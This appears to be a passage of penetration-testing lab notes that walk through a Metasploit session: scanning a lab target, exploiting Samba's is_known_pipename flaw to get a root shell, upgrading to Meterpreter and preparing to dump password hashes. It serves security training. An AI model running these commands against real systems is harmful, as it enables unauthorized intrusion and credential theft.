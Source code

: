 > 🔬 [Post Exploitation Lab II](https://www.attackdefense.com/challengedetails?cid=195)
>
> - Target IP: `192.252.196.3`
> - Metasploit **`post/linux/gather/`** credentials dumping modules
>

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 192.252.196.3
setg RHOST 192.252.196.3
workspace -a Linux_PostExp
db_nmap -sV 192.252.196.3
```

```bash
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
```

### Exploitation

```bash
search type:exploit name:samba
use exploit/linux/samba/is_known_pipename
options
run
```

```bash
pwd
	/tmp
```

```bash
# CTRL + Z to background the shell
sessions
```

- Upgrade the `shell cmd/unix` sessions to a `Meterpreter` session

```bash
sessions -u 1
sessions 2

getuid
	Server username: uid=0, gid=0, euid=0, egid=0
	# "root" user Meterpreter session
```

- Linux user account hashes can be dumped using the privileged `root` user.
- Terminate the shell session and background the meterpreter session.

### Hashdump
